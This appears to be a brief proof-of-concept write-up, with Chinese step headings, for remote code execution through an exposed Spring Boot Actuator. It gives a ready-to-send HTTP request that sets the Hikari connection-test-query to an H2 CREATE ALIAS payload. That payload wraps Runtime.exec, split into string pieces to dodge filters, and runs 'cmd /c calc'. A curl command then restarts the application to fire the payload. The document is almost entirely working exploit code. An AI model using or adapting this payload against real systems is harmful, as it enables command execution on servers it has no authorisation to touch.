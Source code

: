 ## PoC
1. 设置环境变量
```
POST /actuator/env HTTP/1.1
Host: localhost:8080
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```
2. 重启应用
`curl -X POST localhost:8080/actuator/restart -H 'Content-Type: application/json'`